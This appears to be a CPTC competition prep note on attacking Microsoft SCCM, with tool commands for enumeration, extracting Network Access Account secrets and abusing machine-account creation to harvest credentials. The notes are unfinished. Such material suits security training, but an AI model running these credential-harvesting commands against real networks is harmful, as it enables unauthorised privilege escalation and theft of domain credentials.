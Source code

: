 # SCCM

SCCM (now MECM and previously SMS) is the System Center Configuration Manager.

It is an on-prem AD-integrated solution that aims to handle path management, task automation, remote control, and often is joined with OS deployment (through PXE). 

There is now a cloud native version from MS called Intune

* CPTC has historically made "trendy" vulns a big part of that year's competition (which is why I have a separate document for SCCM).
	* CHECK THE COMMITS,,, I PUSHED BEFORE THE DEADLINE 

**Important Definitions**:

* Site Server: The server that hosts the SCCM site
	* Will always have a 3-letter site code
* Network Access Account (NAA)
	* Used to authenticate to the SCCM server if the machine isn't domain-joined yet
	* This is widely used, but is not required. Enhanced HTTP is a more secure alternative
* Client Push Installation Accounts (Push Account)
* (WSUS) 
* Operating System Deployment (OSD)
	* SCCM can deploy windows onto multiple machines at once through PXE (Network Boot)
	* This happens through a PXE server, which happens through a "wim" file
	* There should be a password requested when the installer is run - but this is often not the case
	* After network boot, the OS image will be transferred via HTTP and installed. The machine will then be domain joined and programs will be configured

## Enumeration

Linux:

* [**PXEThief**](https://github.com/MWR-CyberSec/PXEThief)

* [**sccmhunter**](https://github.com/garrettfoster13/sccmhunter)

`python3 sccmhunter.py find -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`
`python3 sccmhunter.py smb -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`


`python3 sccmhunter.py show -users`
`python3 sccmhunter.py show -computers`

Windows:

* Go to `Control panel > Configuration Manager`
	* If SCCM is on the domain, you'll see an assigned management point and a site code

`.\SharpSCCM.exe local site-info`


## Privilege Escalation

### Credential Harvesting

**NAA**:
* If you are a local admin on the SCCM client

Linux:
`SystemDPAPIdump.py <domain>/<low_priv_user>:'<password>'@<server>`

Windows:
`.\SharpSCCM get secrets`
`.\SharpSCCM local secrets -m wmi`

* If you are not a local admin, you can make a machine account (all non-privileged users can make 10 machine accounts by default)

`addcomputer.py <domain>/<low_priv_user>:'<password>' -dc-ip <dc ip>`

* [**sccmwtf**](https://github.com/xpn/sccmwtf)
* [**sccm-decrypt**]()
`sccmwtc.py <new machine hostname> <new machine fqdn> <sccm site server hostname> '<domain>\<new machine fqdn>$' '<new machine password>`
`.\sccm-decrypt.exe <CDATA>`
### 


## Lateral Movement

